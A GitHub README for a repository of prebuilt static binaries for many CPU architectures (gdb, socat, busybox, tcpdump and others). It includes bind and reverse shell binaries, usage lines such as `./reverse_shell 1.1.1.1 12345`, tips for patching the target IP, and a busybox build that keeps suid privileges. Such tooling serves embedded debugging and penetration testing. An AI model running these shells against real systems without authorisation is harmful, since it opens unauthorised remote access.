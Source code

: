 # prebuilt-multiarch-bin

prebuilt binaries for multiple architeture (arm, armeb, aarch64, aarch64_be, mips, mips1, mipsel, mipsel1, mips64, mips64el, powerpc, powerpc64, powerpc64le, riscv64, i586, x86_64)

all binaries are statically linked and stripped

Please go to the [Release](https://github.com/leommxj/prebuilt-multiarch-bin/releases) page for download. `*archName*_tools.zip` contains tools' binary (see Tools Section) for that specific arch, and `allinone.zip` contains all of it.

## Buildroot

* MIPS-I and MIPSEL-I are using `buildroot 2014.11` because they remove the support after that version
* others are using `buildroot 2019.11.1`
* compiled toolchain can be found at action's artifacts page (mips1/mipsel1 are file package from `output/host`, others are from `make sdk`)

## Tools

- gdb (mips1/mips1el are using `gdb 7.12.1`, others are `8.3.1`)
- socat
- busybox (And busybox_nodrop is the one replace all BB_SUID_DROP with BB_SUID_MAYBE, which means it will not drop suid in applets)
- bind/reverse shell
- bind/reverse shell .so library (barely tested)
- tcpdump
- strace
- dropbear(mips1/mips1el are not static link `:(` )
- lsof

## Bind/Reverse Shell binary

* run the bind shell without arguments like `./bind_shell` will listening on the port 3343 and `./bind_shell 6666` will listen on 6666.
* run the reverse shell binary without arguments will connect to 127.0.0.1:3343 , one could use a hex editor the change cstring cotains the ip/port. or `./reverse_shell 1.1.1.1 12345` will connect to 1.1.1.1:12345; `./reverse_shell 1.1.1.1` will connect to 1.1.1.1:3343

## gdb (*Important*)

- gdbserver is compiled without libthread_db
- gdb need libthread_db.so.1 to support multithread debug, if you run into SIGSEGV when `r` the program, run `set libthread-db-search-path 0` in gdb first, then there will be warning about libthread_db.so.1, just ignore it.

## Github Actions

the config file for buildroot and github actions' workflow file are in the `src` branch

## Changelog
* 20220514 - changet to use release, old way can be found in `master_deprecated` branch